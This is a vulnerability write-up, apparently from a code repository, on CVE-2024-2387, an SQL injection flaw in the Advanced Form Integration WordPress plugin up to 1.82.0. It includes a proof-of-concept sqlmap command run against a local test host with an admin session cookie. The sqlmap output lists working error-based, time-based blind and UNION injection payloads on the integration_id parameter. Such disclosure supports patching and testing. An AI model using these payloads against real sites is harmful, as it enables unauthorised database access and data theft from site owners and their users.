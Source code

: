 # CVE-2024-2387
Advanced Form Integration – Connect WooCommerce and Contact Form 7 to Google Sheets and other platforms <= 1.82.0 - SQL Injection to Reflected Cross-Site Scripting via integration_id

# Description

The Advanced Form Integration – Connect WooCommerce and Contact Form 7 to Google Sheets and other platforms plugin for WordPress is vulnerable to SQL Injection via the ‘integration_id’ parameter in all versions up to, and including, 1.82.0 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query.  This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries and subsequently inject arbitrary web scripts in pages that execute if they can successfully trick a user into performing an action such as clicking on a link.

## Details

- **Type**: plugin
- **Slug**: advanced-form-integration
- **Affected Version**: 1.82.0
- **CVSS Score**: 6.1
- **CVSS Rating**: Medium
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:H/UI:R/S:C/C:L/I:L/A:N
- **CVE**: CVE-2024-2387
- **Status**: Active

POC
---

```
python3 sqlmap.py -u 'http://kubernetes.docker.internal:8929/wp-admin/admin.php?page=advanced-form-integration-log&integration_id=1' --dbms='MySQL ' --cookie='wordpress_f0174336378e6db874da2237e8c05ac1=superadmin%7C1742982126%7CYDqu0KuYvfYzvp8sbRrxB7bBkXdnWS2Fujlrdf3Pq6L%7C24e6802d50c6cfdcd9d5b7a783d4ccdc2253f874df0e93b81bd451fffa276d99;wp-settings-1=product_cat_tab%3Dpop%26libraryContent%3Dbrowse;wp-settings-time-1=1739543461;wordpress_test_cookie=WP%20Cookie%20check;wordpress_logged_in_f0174336378e6db874da2237e8c05ac1=superadmin%7C1742982126%7CYDqu0KuYvfYzvp8sbRrxB7bBkXdnWS2Fujlrdf3Pq6L%7C872a73f2c03032a1dcfc8408a3c791356f4fc4156cc638ef2c8cf0665450d81f;tk_ai=woo%3AHJ877y%2BjNWutqlxgSuyOlVs2;woocommerce_items_in_cart=1;woocommerce_cart_hash=00dd4812a167442476e6e7ea663fc03e;wp_woocommerce_session_f0174336378e6db874da2237e8c05ac1=1%7C%7C1742982127%7C%7C1742978527%7C%7C8aad0f1007238f35b028cc89c058effd'
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.9.3.3#dev}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:47:18 /2025-03-24/

[09:47:19] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: integration_id (GET)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: page=advanced-form-integration-log&integration_id=1' AND GTID_SUBSET(CONCAT(0x7171767671,(SELECT (ELT(1048=1048,1))),0x7178706271),1048)-- PdXs

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=advanced-form-integration-log&integration_id=1' AND (SELECT 6770 FROM (SELECT(SLEEP(5)))CSQO)-- wZnA

    Type: UNION query
    Title: MySQL UNION query (NULL) - 7 columns
    Payload: page=advanced-form-integration-log&integration_id=1' UNION ALL SELECT NULL,NULL,CONCAT(0x7171767671,0x4f6d77614e4b4f716f634e71714c6a435945444a6d76417544544c4459784c655054626e5841594a,0x7178706271),NULL,NULL,NULL,NULL#
---
[09:47:19] [INFO] testing MySQL
[09:47:19] [WARNING] reflective value(s) found and filtering out
[09:47:19] [INFO] confirming MySQL
[09:47:20] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 8.2.21, Apache 2.4.59
back-end DBMS: MySQL >= 8.0.0
```
